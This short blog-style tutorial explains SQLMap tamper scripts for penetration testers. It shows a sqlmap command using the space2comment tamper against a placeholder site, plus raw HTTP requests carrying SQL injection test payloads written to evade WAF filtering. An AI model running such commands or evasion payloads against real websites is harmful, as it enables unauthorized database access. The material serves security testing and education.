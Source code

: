 Hello, in this post, I will be sharing information about SQLMap tamper scripts. So, what is SQLMap? What are tamper scripts in SQLMap? And how can they be used to bypass a WAF? Etc.

# **Introduction**

SQLMap is a tool for finding and exploiting security weaknesses in websites and web applications related to database interactions, particularly SQL injection vulnerabilities. The SQLMap display can be seen in Figure 1.

![](https://miro.medium.com/v2/resize:fit:700/0*gj5U3OGoTaDWWYB_.png)

Figure 1: SQLMap Display

When trying to perform SQL Injection on a website, some websites have strong security in place, including thorough parameter and form sanitation. Additionally, some sites employ a Web Application Firewall (WAF), which can make it difficult for penetration testers to exploit the website using SQL Injection attacks.

![](https://miro.medium.com/v2/resize:fit:700/1*R5QpV4L6JIkbn1zsyDEp2w.png)

Figure 2: Cloudflare WAF

So, how can penetration testers bypass these security measures using SQLMap? SQLMap offers a feature called a tamper script, which allows you to modify the SQL query sent to the website in a way that can bypass the sanitation or even the WAF on the website.

# **Example**

The following is a simple command where I will try to use a tamper script called `space2comment` which is to remove space in the payload

sqlmap -u "https://example.com/delete.php?id=1" --level=1 --risk=1 --tamper space2comment

And this is an example of a HTTP request when I don’t use the `space2comment` tamper script

GET /delete.php?id=1%20AND%209134=5770 HTTP/1.1  
Cache-control: no-cache  
User-agent: sqlmap/1.6.4#stable (https://sqlmap.org)  
Host: example.com  
Accept: */*  
Accept-encoding: gzip,deflate  
Connection: close

`%20` is equivalent to space (You need to decode it using [URLDecoder](https://www.urldecoder.org/). And this is an example of a HTTP request when i use `space2comment` tamper script

GET /delete.php?id=1/**/AND/**/9134=5770 HTTP/1.1  
Cache-control: no-cache  
User-agent: sqlmap/1.6.4#stable (https://sqlmap.org)  
Host: example.com  
Accept: */*  
Accept-encoding: gzip,deflate  
Connection: close
